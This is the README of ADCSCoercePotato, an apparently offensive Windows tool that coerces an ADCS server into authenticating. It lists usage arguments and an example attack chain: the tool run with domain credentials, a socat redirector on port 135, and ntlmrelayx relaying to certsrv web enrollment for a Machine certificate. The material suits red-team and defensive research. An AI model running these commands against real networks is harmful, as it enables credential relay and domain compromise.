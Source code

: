 # ADCSCoercePotato
Yet another technique for coercing machine authentication but specific for ADCS server
Full details: https://decoder.cloud/2024/02/26/hello-im-your-adcs-server-and-i-want-to-authenticate-against-you/
```
ADCSCoercePotato
- @decoder_it 2024

Mandatory args:
-u Domain Username
-p password
-d Domain Name
-m <host or IP> remote DCOM (ADCS) server address
-k <IP> redirector where socat and ntlmrelayx is running


Optional args:
-n <port> HTTP port where redirector (ntlmrelayx) is listening, default:80
-l <port> local socket server port, default:9999
-c <clsid> default:{D99E6E74-FC88-11D0-B498-00A0C90312F3}

Example: ADCSCoercePotato.exe -m 192.168.212.22 -k 192.168.1.88 -u myuser -p mypass -d mydomain.domain
         On the Linux box (assuming it has IP:192.168.1.88 and the Windows attacker machine is:192.168.1.89)
         and ADCS web enrollment service is also running on:192.168.212.41
         -> socat tcp -listen:135, reuseaddr, fork tcp:192.168.1.89:9999 &
         -> ntlmrelayx.py -t http://192.168.212.41/certsrv/certrqus.asp --adcs --template Machine -smb2support
